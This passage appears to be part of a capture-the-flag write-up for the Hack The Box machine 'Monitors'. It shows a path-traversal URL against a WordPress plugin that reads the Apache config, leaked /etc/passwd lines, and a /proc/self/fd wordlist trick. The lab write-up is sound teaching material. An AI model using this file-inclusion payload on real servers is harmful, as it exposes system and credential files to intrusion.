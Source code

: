 ```bash
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

```java
#!/usr/bin/env python
for x in range(1000):
    print(x)
	
# awk '{print "/proc/self/fd/"$0""}' a.txt > wordlist.txt
```

After struggling hours and hours found nothing tried with /proc/self/fd too but not got any sauce.

So i looked for the default configuration file of apache2

```bash
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/000-default.conf
```

And entry of one subdomain so i move forward to look into that.

![](Images/Pasted%20image%2020210628102556.png)

And while looking into it found one more website is running.

![](Images/Pasted%20image%2020210628102701.png)

Tried with the creds and here we are in.
